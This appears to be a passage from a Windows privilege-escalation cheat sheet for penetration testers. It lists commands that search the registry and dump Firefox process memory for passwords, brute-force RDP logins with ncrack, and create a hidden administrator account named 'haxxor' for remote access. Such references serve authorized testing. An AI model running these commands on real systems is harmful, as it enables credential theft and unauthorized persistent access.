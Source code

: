 ```cmd
# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```
### Reconfigure service parameters
*  Unquoted service paths

* Weak service permissions

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

### Dump process for passwords
```bash
# Looking for Firefox
Get-Process
./procdump64.exe -ma $PID-FF
Select-String -Path .\*.dmp -Pattern 'password' > 1.txt
type 1.txt | findstr /s /i "admin"
```
### Inside service
```cmd
netstat /a
netstat -ano
```
### Programs running as root/system

### Installed software
```cmd
tasklist /SVC
net start
reg query HKEY_LOCAL_MACHINE\SOFTWARE
DRIVERQUERY

Look in:
C:\Program files
C:\Program files (x86)
Home directory of the user
```
### Scheduled tasks
```cmd
schtasks /query /fo LIST /v

Check this file:
c:\WINDOWS\SchedLgU.Txt
```
### Weak passwords
```cmd
ncrack -vv --user george -P /usr/.../passwords.txt rdp://$IP
```
### Add user and enable RDP
```cmd
# Add new user

net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD

# Turn firewall off and enable RDP
```